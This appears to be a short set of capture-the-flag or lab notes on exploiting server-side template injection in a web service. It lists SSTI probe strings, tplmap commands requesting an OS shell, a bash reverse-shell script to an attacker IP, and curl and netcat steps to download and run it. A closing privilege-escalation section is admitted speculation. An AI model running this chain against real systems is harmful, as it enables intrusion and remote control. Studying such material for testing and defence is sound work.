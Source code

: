 services
-p80



# SSTI injection
-> use template syntax to inject malicious payload
check possible blacklisted chars:
`* % $ # { }` etc

Examples tests:
`{{7*7}}`
`${7*&}`
`{{7*7}}
`${7*7}`
`<%= 7*7 %>`
`${{7*7}}`
`#{7*7}`
`*{7*7}`  etc
(List of available payloads found online)
![[Pasted image 20230411133250.png]]

or using tools
`python2.7 ./tplmap.py -u 'http://www.target.com/page?name=John*' --os-shell`
`python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=*&comment=supercomment&link"`
`python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=InjectHere*&comment=A&link" --level 5 -e jade`

Write some simple code to replace blacklisted chars and generate payload

Upload revshell script
`vimshell.sh`
```bash
#!/bin/bash
bash -c "/bin/bash -i >& /dev/tcp/<attackersip>/9001 0>&1"
```
`python3 -m http.server 8000`

Using the SSTI to download, (use the code to generate below code without blacklisted chars)
`curl <atkersip>:8000/shell.sh --output /tmp/shell.sh`

Exec the payload
`nc -lvnp 9001`
(using the SSTI again with payload generated for below)
`bash /tmp/shell.sh`

-> user access gotten


# PE
- group owned file with root rights
-> (below is speculation. Original answers lost.)

- cp /bin/bash to folder with root rights and exec anything
